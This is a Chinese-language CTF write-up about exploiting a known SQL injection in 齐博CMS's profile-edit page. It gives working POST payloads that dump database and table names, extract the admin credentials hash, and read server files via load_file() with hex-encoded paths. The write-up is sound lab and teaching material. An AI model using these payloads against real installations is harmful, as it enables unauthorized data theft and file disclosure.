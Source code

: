 # 再见CMS--齐博CMS

[2018-09-21]()

刚刚在i春秋上做了一道CMS的题，学到的东西挺多的，这里记录一下

> 题目名称：再见CMS  
> 题目内容：这里还是有一个小脑洞  
>   
> 访问链接之后看到的是一个网站，输入`url/admin`直接就进入了后台（不过这道题没什么用）

```
渗透CMS网站的三个步骤：
        1. 第一步,肯定是要判断出cms类型
        2. 第二步,查询该cms曾经出现的漏洞
        3. 第三步,然后利用这些漏洞拿到flag.
```

### [](#0x01-第一步，判断CMS类型： "0x01 第一步，判断CMS类型：")0x01 第一步，判断CMS类型：

恕我太菜，看了半天也没判断出来是哪种类型，人家说拿最下边的备案号到工信部一查就有网站的信息了，可是我查了一下返回没有匹配到类型，然后看了一下别人的writeup，说是齐博CMS

知道了CMS类型就要进行第二步了

### [](#0x02-第二步，搜索齐博CMS的漏洞 "0x02 第二步，搜索齐博CMS的漏洞")0x02 第二步，搜索齐博CMS的漏洞

百度上一找还是有漏洞的，最典型的就是SQL注入了，接下来我们来看看如何进行注入  
先注册一个用户，然后登录上去  
根据搜索出来的文章，漏洞在`/member/userinfo.php?job=edit&step=2`这个页面，这里存放的是个人信息，我们的注入就是通过构造语句把需要的信息显示在这些个人信息后边：  
![](1.png)

```
根据网上提供的漏洞利用方法，构造这样一个注入语句：
http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
post数据：
old_password=123456truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select version()) where uid=3 %23 
```

这个URL其实是对个人信息修改的URL，我们访问这个URL就可以修改个人信息  
而下边POST的数据就是要修改的东西  
old\_password是旧密码，后边uid是我们访问个人信息页面时URL里给的，重点在address里面，`address=`，这个后边的值本来应该填写你要修改的新地址的，我们把注入语句放到这里就可以把注入查询到的东西显示在页面的`联系地址`后边  
![](2.png)  
填好之后访问一下会返回`修改成功，页面正在跳转`  
![](4.png)

然后我们查看一下个人信息，主要看`联系地址`一栏  
![](5.png)

我们可以看到注入成功了，返回了我们需要的东西，那么就开始注入吧。

```
查询数据库：
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select database()) where uid=3 %23 

返回数据库：blog
```

![](6.png)

```
查询表:
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where uid=3 %23 

查到了很多的表，但是我觉得就第一个有用：admin
```

![](7.png)  
查询列：  
URL:<http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2>  
POST:old\_password=123456\&truename=xxxx\%0000\&Limitword\[000\]<=&email=test@qq.com>\&provinceid=,address=\(select group\_concat\(column\_name\) from information\_schema.columns where table\_name=0x61646d696e\) where uid=3 \%23

```
hint:这里由于‘table_name=’的值需要带引号的，但是带了引号语句就报错了，所以利用十六进制来绕过，可以不用带引号

返回列：id,username,password,Email
```

![](8.png)

```
查询字段：
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select group_concat(username,password) from admin) where uid=3 %23 

返回username:admin   password:2638127c92b79ee7901195382dc08068
```

![](9.png)

去了各种md5解码网站都查不出来，无奈可能是思路错了

然后访问了一下`url/flag.php`,输出了flag is here 那么我们的任务就是查看这个文件了

如何利用SQL注入查看文件呢？

<https://www.cnblogs.com/blacksunny/p/8060028.html>

知道了这个方法我们就来构造payload：

```
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
    POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select load_file(0x2f7661722f7777772f68746d6c2f666c61672e706870)) where uid=3 %23
```

括号里的十六进制是要查看的文件的路径`/var/www/html/flag.php`，我们可以在主页的最上边看到网站的绝对路径

访问之后再查看个人信息的联系地址一栏发现是空的，没关系 查看页面源代码  
![](10.png)

这样就得到了flag
